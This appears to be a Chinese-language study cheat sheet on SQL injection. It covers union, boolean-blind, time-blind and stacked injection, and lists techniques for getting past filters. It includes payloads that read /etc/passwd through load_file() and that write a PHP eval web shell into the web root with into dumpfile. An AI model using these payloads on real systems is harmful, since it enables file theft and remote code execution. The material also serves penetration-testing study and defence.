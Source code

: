 

##### union联合查询注入

攻击者使用union语句将恶意查询结果与合法查询结果结合起来，获取数据库中敏感信息。

常见函数：concat()、concat_ws()、group_concat



##### 布尔盲注

攻击者通过构造条件语句，根据应用程序返回的两种不同响应，逐步推断出数据库中的信息。

常见函数：length()、substr()、mid()、rigth()、left()、ascii()、ord()



##### 时间盲注

攻击者通过构造延时函数，根据应用程序的响应的延迟时间，推断出数据库中的信息。

常见函数：sleep()、if()



##### 堆叠注入

攻击者通过在输入中用分号  ;  加入多个查询语句，使数据库执行多个独立的SQL语句，从而实现复杂的攻击。



##### 读写文件函数

load_file()读取文件

```sql
union select 1,2,load_file('/etc/passwd')
```

into outfile、into dumpfile 写文件

```sql
union select 1,2,"<?php @eval($_POST[cmd]);?>" into dumpfile '/var/www/html/a.php' 
```



#### 绕过姿势？

1.双写、大小写关键字

2.被反斜杠转义\：宽字节注入%DF%5C(\)被gbk编码成生僻字

3.等价函数绕过

4.空格绕过：%20，%a0，括号（）

5.引号绕过：16进制、char()

```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97,100, 109, 105, 110)
```
